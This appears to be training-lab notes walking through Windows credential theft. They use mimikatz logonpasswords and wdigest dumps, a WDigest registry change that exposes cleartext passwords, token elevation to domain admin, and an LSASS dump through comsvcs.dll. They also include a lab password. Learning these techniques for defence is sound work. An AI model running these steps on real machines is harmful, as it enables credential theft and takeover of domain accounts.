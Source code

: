 # Credential Grabbing
> remoted into the client as...someone local/domain? Admin?
> 
1. Powershell:
`cd c:\Users\Public\Desktop\LAB_FILES\assets`
1. `expand-archive mimikatz_trunk.zip`
1. Run mimikatz meow.
   1. `cd .\mimikatz_trunk\x64\`
   1. `.\mimikatz.exe`
   
   1. In Mimikatz terminal @ `mimikatz #`:
   
        ```
        privilege::debug
        log m.txt
        sekurlsa::logonpasswords
        sekurlsa::wdigest
        ```

1. Launch a separate PowerShell window as admin and run:

    ```powershell    
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
    runas /user:wheel\Administrator notepad.exe
    password: 12qwaszx!@QWASZX
    ```

    - Minimize the `notepad` process window. **DO NOT close this window**
    - We're using RunAs to emulate a process being run via the `wheel\administrator` account.
    
1. Back in mimikatz:
   1. `sekurlsa::logonpasswords`
   1. `sekurlsa::wdigest`

>Yay clear text pw!

8. Elevate

`mimkatz # token::elevate /domainadmin`

    - Expected output:
        ```
        mimikatz # token::elevate /domainadmin
        Token Id  : 0
        User name :
        SID name  : WHEEL\Domain Admins

        3804    {0;00e652ef} 3 D 15095083       WHEEL\Administrator     S-1-5-21-2920872554-2728211966-3144411165-500   (16g,24p)       Primary
         -> Impersonated !
         * Process Token : {0;006de2b6} 3 D 15016662    CLIENT01\Administrator  S-1-5-21-1871320352-3388450030-3539921296-500   (14g,24p)       Primary
         * Thread Token  : {0;00e652ef} 3 D 15181987    WHEEL\Administrator     S-1-5-21-2920872554-2728211966-3144411165-500   (16g,24p)       Impersonation (Delegation)\
        ```

**CONGRATS!! You are not elevated to a domain admin account!



## Other way lolbins
1. in an local admin powershell:
```
get-process lsass

rundll32.exe c:\Windows\system32\comsvcs.dll, MiniDump <pid> C:\Windows\temp\mini.dump full
```

2. In mimikatz (this can be done "offline")
```
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full

```





